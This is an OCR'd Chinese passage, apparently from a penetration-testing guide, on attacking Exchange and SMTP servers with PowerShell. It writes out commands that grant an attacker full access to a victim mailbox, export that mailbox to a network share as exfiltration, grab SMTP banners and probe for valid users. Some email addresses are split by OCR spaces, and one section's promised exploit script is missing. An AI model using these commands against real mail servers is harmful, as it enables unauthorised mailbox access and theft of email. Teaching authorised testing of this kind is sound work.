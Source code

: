 ### 提权

在初步访问之后，攻击者可能会寻求在 Exchange 服务器中提升权限。这可能涉及修改邮箱权限、授予额外权限或控制管理员账户。PowerShell 可用于执行这些操作。此命令授予攻击者对受害者邮箱的完全访问权限：

```
 Add-MailboxPermission -User attac ker@snowca pcyber.com -AccessRights FullAccess -Identity vict im@snowcap cyber.com
```

### 利用已知漏洞

与任何软件一样，Exchange 服务器可能存在已知的漏洞。如果目标系统中存在这些漏洞，PowerShell 可以利用它们。例如，如果 Exchange 服务器中的已知漏洞有对应的 PowerShell 利用脚本，则可以执行该脚本：

### 数据外泄

攻击者可能会使用 PowerShell 从 Exchange 服务器中提取敏感数据。这可能包括导出邮件、联系人、附件和其他敏感信息。此命令将受害者邮箱的内容导出到网络共享上的 **个人存储表**（**PST**）文件：

```
 New-MailboxExportRequest -Mailbox vict im@snowcap cyber.com -FilePath "\\server\share\export.pst"
```

使用 PowerShell 进行渗透测试应当有详细的文档记录，所有操作都应该是可逆的。伦理渗透测试的主要目标是识别漏洞并帮助组织提高安全性，而不是造成伤害或损害。

总之，PowerShell 是渗透测试 Microsoft Exchange 服务器的有价值工具，特别是在枚举和利用阶段。然而，必须以负责任、道德和合法授权的方式进行此项工作。目标是识别和修复 Exchange 服务器中的安全弱点，以确保电子邮件服务的机密性、完整性和可用性。

# PowerShell 和 SMTP

对 SMTP 服务器进行渗透测试对于评估组织的邮件基础设施至关重要。PowerShell 可以作为一个有价值的工具，帮助安全专业人员识别漏洞并确保 SMTP 服务器的安全。在本文中，我们将探讨如何使用 PowerShell 对 SMTP 服务器进行渗透测试，重点在于枚举和利用。

## 使用 PowerShell 进行枚举

枚举是任何渗透测试的初始阶段，目的是收集目标 SMTP 服务器的信息。PowerShell 可以在这一阶段通过提取关于服务器配置的有价值细节来提供帮助。

### SMTP 横幅枚举

SMTP 横幅是一个有价值的信息，揭示了服务器的身份和软件版本。可以使用 PowerShell 的 `Test-NetConnection` cmdlet 来枚举 SMTP 横幅：

```
 Test-NetConnection -ComputerName mail.snowcapcyber.com -Port 25
```

该命令连接到 SMTP 服务器的 25 端口并获取横幅，通常包括版本信息。

### SMTP 用户枚举

在 SMTP 服务器上识别有效的电子邮件地址对于社会工程学和潜在的利用非常重要。可以使用 PowerShell 的 `Send-MailMessage` cmdlet 测试地址：

```
 Send-MailMessage -To "use r@snowcap cyber.com" -From "attacker@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com
```
